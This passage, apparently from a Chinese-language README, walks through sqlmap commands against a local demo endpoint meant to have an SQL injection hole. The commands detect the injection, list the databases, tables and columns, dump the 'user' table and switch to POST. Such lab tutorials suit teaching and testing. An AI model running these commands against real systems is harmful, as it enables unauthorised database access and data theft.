 - 检测注入点

  使用`-u`参数指定URL，并检查是否存在SQL注入点。

  ```bash
  python sqlmap.py -u 'http://localhost:18080/api/v1/mybatis-plus/testSqlInjection?username=1'
  ```

  果中间出现提示，根据需要输入`y`进行确认。

- 清除所有的扫描历史和缓存

  ```bash
  python sqlmap.py --purge
  ```

- 查看所有数据库

  使用`--dbs`参数列出目标上的所有数据库。

  ```bash
  python sqlmap.py -u 'http://localhost:18080/api/v1/mybatis-plus/testSqlInjection?username=1' --dbs
  ```

- 查看当前使用的数据库

  使用`--current-db`参数查看当前使用的数据库。

  ```bash
  python sqlmap.py -u 'http://localhost:18080/api/v1/mybatis-plus/testSqlInjection?username=1' --current-db
  ```

- 查看数据表

  使用`-D`参数指定数据库名，`--tables`参数列出指定数据库中的所有表。

  ```bash
  python sqlmap.py -u 'http://localhost:18080/api/v1/mybatis-plus/testSqlInjection?username=1' -D 'demo' --tables
  ```

- 查看字段

  使用`-T`参数指定表名，`--columns`参数列出指定表中的所有字段。

  ```bash
  python sqlmap.py -u 'http://localhost:18080/api/v1/mybatis-plus/testSqlInjection?username=1' -D 'demo' -T 'user' --columns
  ```

- 查看数据

  使用`--dump`参数导出指定表中的数据。

  ```bash
  python sqlmap.py -u 'http://localhost:18080/api/v1/mybatis-plus/testSqlInjection?username=1' -D 'demo' -T 'user' --dump
  ```
  
- 指定`http post`方法

  ```bash
  python sqlmap.py -u 'http://localhost:18080/api/v1/mybatis-plus/testSqlInjection?username=1' --method=POST
  ```
